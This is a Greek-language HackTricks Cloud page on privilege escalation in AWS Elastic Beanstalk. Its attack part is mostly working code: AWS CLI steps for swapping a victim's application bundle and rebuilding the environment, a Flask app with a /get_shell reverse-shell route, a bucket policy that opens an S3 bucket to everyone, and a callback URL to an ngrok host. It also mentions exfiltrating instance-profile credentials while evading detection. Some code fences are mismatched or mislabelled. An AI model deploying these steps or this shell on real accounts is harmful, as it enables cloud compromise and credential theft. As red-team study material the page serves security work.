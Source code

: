# AWS - Elastic Beanstalk Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Elastic Beanstalk

Περισσότερες **πληροφορίες σχετικά με το Elastic Beanstalk** στο:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Για να εκτελέσετε ευαίσθητες ενέργειες στο Beanstalk θα χρειαστεί να έχετε **πολλές ευαίσθητες άδειες σε πολλές διαφορετικές υπηρεσίες**. Μπορείτε να ελέγξετε για παράδειγμα τις άδειες που δίνονται σε **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`**
{% endhint %}

### `elasticbeanstalk:RebuildEnvironment`, άδειες εγγραφής S3 & πολλές άλλες

Με **άδειες εγγραφής πάνω στον S3 κάδο** που περιέχει τον **κώδικα** του περιβάλλοντος και άδειες για **ανακατασκευή** της εφαρμογής (απαιτείται `elasticbeanstalk:RebuildEnvironment` και μερικές ακόμη σχετικές με `S3`, `EC2` και `Cloudformation`), μπορείτε να **τροποποιήσετε** τον **κώδικα**, να **ανακατασκευάσετε** την εφαρμογή και την επόμενη φορά που θα αποκτήσετε πρόσβαση στην εφαρμογή θα **εκτελεί τον νέο σας κώδικα**, επιτρέποντας στον επιτιθέμενο να συμβιβάσει την εφαρμογή και τα διαπιστευτήρια ρόλου IAM της. 

{% code overflow="wrap" %}
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
{% endcode %}

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`, και άλλα...

Οι αναφερόμενες καθώς και αρκετές **`S3`**, **`EC2`, `cloudformation`**, **`autoscaling`** και **`elasticloadbalancing`** άδειες είναι απαραίτητες για να δημιουργήσετε ένα βασικό σενάριο Elastic Beanstalk από το μηδέν.

* Δημιουργία μιας εφαρμογής AWS Elastic Beanstalk:
```bash
aws elasticbeanstalk create-application --application-name MyApp
```
* Δημιουργήστε ένα περιβάλλον AWS Elastic Beanstalk ([**υποστηριζόμενες πλατφόρμες**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}

Αν ένα περιβάλλον έχει ήδη δημιουργηθεί και **δεν θέλετε να δημιουργήσετε ένα νέο**, μπορείτε απλά να **ενημερώσετε** το υπάρχον.

* Συσκευάστε τον κωδικό της εφαρμογής σας και τις εξαρτήσεις σε ένα αρχείο ZIP:
```python
zip -r MyApp.zip .
```
* Ανεβάστε το αρχείο ZIP σε ένα S3 bucket:
```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```
* Δημιουργήστε μια έκδοση εφαρμογής AWS Elastic Beanstalk:

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
{% endcode %}

* Αναπτύξτε την έκδοση της εφαρμογής στο περιβάλλον AWS Elastic Beanstalk σας:

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

Πρώτα απ' όλα, πρέπει να δημιουργήσετε ένα **νόμιμο περιβάλλον Beanstalk** με τον **κώδικα** που θα θέλατε να εκτελέσετε στον **θύμα** ακολουθώντας τα **προηγούμενα βήματα**. Πιθανώς ένα απλό **zip** που να περιέχει αυτά τα **2 αρχεία**:

{% tabs %}
{% tab title="application.py" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
return jsonify('404')

@application.route("/")
def index():
return jsonify('Welcome!')


@application.route("/get_shell")
def search():
host=request.args.get('host')
port=request.args.get('port')
if host and port:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,int(port)))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
return jsonify('done')

if __name__=="__main__":
application.run()
```
{% endtab %}

{% tab title="requirements.txt" %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

Μόλις έχετε **το δικό σας περιβάλλον Beanstalk να τρέχει** το rev shell σας, είναι καιρός να **μεταφέρετε** αυτό στο **περιβάλλον του θύματος**. Για να το κάνετε αυτό, πρέπει να **ενημερώσετε την Πολιτική Κάδου** του S3 κάδου σας Beanstalk ώστε ο **θύμα να μπορεί να έχει πρόσβαση σε αυτό** (Σημειώστε ότι αυτό θα **ανοίξει** τον Κάδο σε **ΟΛΟΥΣ**):
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"s3:ListBucket",
"s3:ListBucketVersions",
"s3:GetObject",
"s3:GetObjectVersion",
"s3:*"
],
"Resource": [
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
]
},
{
"Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
"Effect": "Deny",
"Principal": {
"AWS": "*"
},
"Action": "s3:DeleteBucket",
"Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
}
]
}
```
```markdown
{% code overflow="wrap" %}
```
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528

Alternatively, [MaliciousBeanstalk](https://github.com/fr4nk3nst1ner/MaliciousBeanstalk) can be used to deploy a Beanstalk application that takes advantage of overly permissive Instance Profiles. Deploying this application will execute a binary (e.g., [Mythic](https://github.com/its-a-feature/Mythic) payload) and/or exfiltrate the instance profile security credentials (use with caution, GuardDuty alerts when instance profile credentials are used outside the ec2 instance).

The developer has intentions to establish a reverse shell using Netcat or Socat with next steps to keep exploitation contained to the ec2 instance to avoid detections.
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
